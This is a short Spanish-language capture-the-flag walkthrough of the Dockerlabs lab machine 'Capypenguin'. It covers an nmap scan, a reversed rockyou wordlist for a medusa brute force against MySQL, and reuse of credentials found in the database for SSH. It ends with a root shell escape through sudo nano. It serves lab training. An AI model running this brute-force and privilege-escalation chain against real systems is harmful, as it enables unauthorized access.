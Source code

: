 Máquina Capypenguin

Inciamos con nmap para el reconocimiento inicial:

```
# Nmap 7.94SVN scan initiated Fri Apr 19 08:55:08 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-19 08:55:08 CEST for 1s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos un ssh un http y un mysql, vamos a empezar enumerando el http:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/cb7ef27c-9c30-453f-bdd9-ed7738de3c71)

Bueno teniendo en cuenta lo que nos dice la páguina web:

```
tac /usr/share/wordlists/rockyou.txt > MiRockYou.txt
```

Ahora hacemos la explotación con medusa:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/c594fb6a-0121-4880-866f-0080f0f46856)

y nos encuentra la contraseña de la base de datos mysql, vamos a meternos dentro a ver uqe hay:

Dentro de la base de datos encontramos unas credenciales, vamos a probarlas en el ssh:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/18f615ea-70dd-43a5-bb23-3e75adadc02b)


y efectivamente estamos dentro del ssh, iniciamos la escalada:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/bf2d3b83-0c1f-47f7-807b-01d23ccb41b9)


Al poner el comando sudo -l me encuentro que nano lo puedo utilizar como super usuario:

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/2e27727f-398b-421c-879e-745ed828cf0e)


Dificultado 1/5



